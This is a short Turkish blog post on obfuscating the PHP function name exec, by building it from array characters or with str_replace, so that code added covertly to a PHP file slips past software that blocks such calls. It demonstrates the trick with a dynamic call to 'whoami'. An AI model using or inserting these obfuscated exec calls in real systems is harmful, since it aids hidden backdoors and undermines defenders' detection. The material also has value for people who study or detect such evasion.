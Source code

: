 ```yaml
---
layout: post
title: PHP Fonksiyon Şifreleme
author: Yusuf GENÇ
---
```


<h1 id="php-fonksiyon-ismini-şifrelemek">Php Fonksiyon ismini şifrelemek</h1>
<p>Şifreleme nedir? Yaptığımız işlerde veya  hayatımızda nasıl bir önemi vardır?<br>
Hep görürüz televizyonda suçlular dinlemelere takılmamak için Elmaya armut der. Aslında verdiğim örnekten yola çıkar isek ifade edeceğimiz şeyi hem biz hemde karşı tarafın anlaması lazım. Bu yol ile amacımızı gizlemiş ve gizlilik alanımızı başarıyla oluşturmuş oluyoruz. Fakat bu gizlilik deşifre olabilir. Konumuza gelelim şimdi PHP’deki genelde <s>yasaklı</s> bazı fonksiyonları biliriz. Eğer bilmiyor isek söyle size şöyle örnek vereyim <code>exec</code> komutu tam bir baş belası haline gelebiliyor eğer ki sunucunuza bir takım iyi veya kötü kişiler erişim sağladıysa.</p>
<p>Genelde bu fonksiyonu içeren kısımları engelleyen yazılımlar var. Bir php dosyasına bir ekleme yapacağız  fakat bunu karşı tarafa hissettirmeden yapmamız gerekiyor. Öyle ise şu yolları deneyebiliriz.Bir Array oluşturup buna fonksiyonumuzun her harfini ekleyelim.</p>
<pre><code>$a = array('x','e','c');
</code></pre>
<p>Peki biz ne yaptık aslında ne yapacağız. PHP’de fonksiyonu bir değişkene atayabiliyoruz .Örnek <code>exec('whoami')</code> bunu komutu ben değişkenle vermek istiyor isem bunu bana mümkün kılıyor PHP , yukarıda oluşturduğumuz Array’ı kullanalım.</p>
<pre><code>$str=$a[1].$a[0].$a[1].$a[2];
</code></pre>
<p>Yav sen oralaya bir şeyler yazdın ama biz bunu anlamadık der gibisiniz.<br>
İş size başta bahsettiğim gibi  şifrelemede olay hem bizim hemde karşı tarafın anlaması burada olayı PHP’ye bırakıyoruz.Değişkenimize şunları atamış olduk bu işlemi yaparak. <code>$a[1]-&gt;e , $a[2]-&gt;x , $a[1]-&gt; e , $a[2]-&gt; c'</code> şimdi kaba kodu bir silelim bakalım değişkenimize ne atanmış.<code>exec</code> değerini değişkenimize başarılı bir şekilde atamış olduk. Şimdi ise onu kullanma vakti geldi.<br>
<code>echo $str('whoami');</code><br>
Çıktı :<br>
<code>testpc\testuser</code><br>
Aslında farklı teknikler ile bu yapıyı genişleyebilirsiniz.Örnek vereyim <code>str_replace</code> kullanarakda aynı sonuç alabiliriz.</p>
<pre><code>$cmd=str_replace("u", "", "ueuxueucu");
echo $cmd('whoami');
</code></pre>
<p>çıktısı yine aynı olacaktır.</p>
<p>Bir seferki konuda görüşmek üzere sağlıcakla Kalın!</p>
